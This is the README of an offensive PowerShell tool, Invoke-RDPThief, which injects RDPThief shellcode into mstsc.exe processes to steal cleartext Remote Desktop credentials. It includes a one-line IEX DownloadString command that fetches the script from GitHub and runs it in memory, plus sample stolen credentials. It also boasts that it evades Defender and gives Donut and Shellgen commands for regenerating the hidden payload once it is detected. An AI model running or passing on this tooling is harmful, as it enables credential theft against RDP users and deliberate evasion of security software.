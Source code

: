 # Invoke-RDPThief

This PowerShell script runs on a loop hunting for mstsc.exe processes. When any are found, the script will perform process injection on the target process and inject RDPthief into the process in order to capture cleartext credentials.

RDPThief.dll was converted to shellcode with Donut, then converted to UUIDs with Shellgen to hide the shellcode in plainsight within the script. The UUIDs are then converted back into shellcode at runtime and injected whilst staying completley in memory.

- Works against Defender as of 01/10/2024
- Requires Administrative rights

## Usage
```powershell
# Load into memory and execute
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/Invoke-RDPThief/refs/heads/main/Invoke-RDPThief.ps1")

```
## Output
```
[*] Hunting for mstsc...

[+] Successfully injected into process 5496

[+] Extracted Credentials

Server   : DC01.Security.local
Username : SECURITY\administrator
Password : Password123
```

## Payload creation
The payload in the script is ready to go however, the steps below can be followed if the payload is signatured in the future.

Convert RDPThief.dll into shellcode with Donut.
```
.\donut.exe -f:1 --input:C:\RdpThief.dll -e 3 -b 1 -x 3 -k 2
```

Convert to UUID with Shellgen
```powershell
Shellgen -RawFile "C:\loader.bin" -OutputFormat UUID
```
Take the output and place it into the $UUIDs array in Invoke-RDPThief.ps1

RDPThief: https://github.com/0x09AL/RdpThief

Donut: https://github.com/TheWover/donut

Shellgen: https://github.com/Leo4j/ShellGen


